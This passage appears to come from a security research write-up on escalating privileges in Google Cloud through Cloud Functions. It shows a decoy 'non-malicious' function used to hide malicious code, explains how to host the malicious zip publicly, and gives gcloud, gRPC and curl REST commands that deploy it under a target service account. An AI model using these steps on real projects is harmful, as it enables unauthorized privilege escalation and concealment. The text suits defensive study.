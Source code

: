 ```python
#filename: requirements.txt
requests
```
To cover the Malicious Source Code, we'll be using a Non-Malicious source code.

```python
#Non-Malicious Source Code
#filename: main.py
import requests

def anirban(request):
    request_json = request.get_json()
    if request.args and 'message' in request.args:
        return request.args.get('message')
    elif request_json and 'message' in request_json:
        return request_json['message']
    else:
        return f'Hello World!'
```

```python
#filename: requirements.txt
requests
```
Pack the Malicious Source Code (main.py) and requirements.txt into a zip file and upload it to a different Cloud Storage Account (not the same account where you're exploiting the Cloud Function) you have full access to (Editor) and make it public. Copy the gsutil link of the malicious zip file.

Once you have the gsutil URI of the malicious zip file go ahead Deploy a Function via any method (gCloud or Cloud Function API)

### Deploying and Setting IAM Policy to a Cloud Function via gCloud or Cloud Function API (gRPC & REST)

Command to [Deploy Cloud Function via gCloud](https://github.com/anrbn/GCP-Attack-Defense/blob/main/research/Google%20Cloud/Cloud%20Function/PrivEsc-via-CloudFunction.md#deploying-a-cloud-function-via-gcloud):
```powershell
gcloud functions deploy <function-name> --runtime=python38 --source=<gs-link-of-malicious-sourcecode> --entry-point=<function-entrypoint> --trigger-http --service-account=<service-account-email>
```

Command to [Deploy Cloud Function via Cloud Function API (gRPC)](https://github.com/anrbn/GCP-Attack-Defense/blob/main/research/Google%20Cloud/Cloud%20Function/PrivEsc-via-CloudFunction.md#deploying-a-cloud-function-via-cloud-function-api-grpc):
```powershell
py.exe .\main.py --project-id <project-id> --location <region> --function-name <function-name> --gsutil-uri <gs-link-of-malicious-sourcecode> --function-entry-point <entry-point> --service-account <sa-account> --deploy
```

Command to [Deploy Cloud Function via Cloud Function API (REST)](https://github.com/anrbn/GCP-Attack-Defense/blob/main/research/Google%20Cloud/Cloud%20Function/PrivEsc-via-CloudFunction.md#deploying-a-cloud-function-via-cloud-function-api-rest):
```powershell
curl -X POST -H "Authorization: Bearer <token>" -H "Content-Type: application/json" -d "{\"name\":\"projects/<project-id>/locations/<region>/functions/<function-name>\",\"entryPoint\":\"<function-entrypoint>\",\"runtime\":\"python38\",\"serviceAccountEmail\":\"<service-account-email>\",\"sourceArchiveUrl\":\"<gs-link-of-malicious-sourcecode>\",\"httpsTrigger\":{}}" https://cloudfunctions.googleapis.com/v1/projects/<project-id>/locations/<region>/functions?alt=json
```
